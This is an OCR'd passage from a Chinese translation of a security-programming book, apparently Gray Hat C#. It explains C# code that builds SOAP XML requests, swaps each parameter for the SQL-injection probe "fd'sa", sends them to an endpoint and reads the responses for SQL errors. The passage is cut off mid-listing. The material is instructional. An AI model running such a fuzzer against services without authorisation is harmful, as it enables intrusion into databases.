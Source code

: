 > XDocument soapDoc = new XDocument(new XDeclaration("1.0", "ascii", "true"),
> 
> new ➊XElement(soapNS + "Envelope",
> 
> new XAttribute(XNamespace.Xmlns + "soap", soapNS),
> 
> new XAttribute("xmlns", xmlNS),
> 
> ➋soapBody)); Listing 3-32: 组合整个 SOAP XML 文档

我们需要创建一个 XDocument，并添加一个名为 SOAP Envelope ➊ 的 XElement。通过将一个新的 XElement 传递给 XDocument 构造函数，我们创建了一个新的 XDocument。该 XElement 又是通过定义节点的 XML 命名空间的几个属性以及包含我们用参数构建的 SOAP body ➋ 来创建的。

现在 XML 已经构建完成，我们可以将 XML 发送到 Web 服务器，并尝试引发 SQL 错误，如 Listing 3-33 所示。继续将这段代码添加到 FuzzSoapPort() 方法中。

> int k = 0;
> 
> foreach (Guid parm in paramList)
> 
> {
> 
> string testSoap = soapDoc.ToString().➊Replace(parm.ToString(), "fd'sa");
> 
> byte[] data = System.Text.Encoding.ASCII.GetBytes(testSoap);
> 
> HttpWebRequest req = (HttpWebRequest) WebRequest.Create(_endpoint);
> 
> req.Headers["SOAPAction"] = ➋op.SoapAction;
> 
> req.Method = "POST";
> 
> req.ContentType = "text/xml";
> 
> req.ContentLength = data.Length;
> 
> using (Stream stream = req.GetRequestStream())
> 
> stream.➌Write(data, 0, data.Length); Listing 3-33: 创建 HttpWebRequest 以将 SOAP XML 发送到 SOAP 端点

与本章前面介绍的模糊测试器类似，我们遍历在构建 SOAP 操作的 XML 时创建的值列表中的每个 Guid。遍历过程中，我们将当前 Guid 替换为一个值，如果该值在 SQL 查询中使用不当，则应引发 SQL 错误➊。替换 Guid 为被污染的值后，我们使用 GetBytes()方法将结果字符串转换为字节数组，并将其写入 HTTP 流作为 POST 数据。

然后我们构建 HttpWebRequest，用于发起 HTTP 请求并读取结果。需要注意的一个特殊部分是 SOAPAction 头➋。此 SOAPAction HTTP 头将由 SOAP 端点使用，以确定对数据执行的操作，如列出或删除用户。我们还将 HTTP 方法设置为 POST，内容类型设置为 text/xml，内容长度设置为我们创建的字节数组的长度。最后，我们将数据写入 HTTP 流➌。现在我们需要读取来自服务器的响应，并确定我们发送的数据是否引发了 SQL 错误，如清单 3-34 所示。

> string resp = string.Empty;
> 
> try
> 
> {
> 
> using (StreamReader rdr = new StreamReader(req.GetResponse().GetResponseStream()))
> 
> resp = rdr.➊ReadToEnd();
> 
> }
> 
> catch (WebException ex)
> 
> {
> 
> using (StreamReader rdr = new StreamReader(ex.Response.GetResponseStream()))
> 
> resp = rdr.ReadToEnd();
> 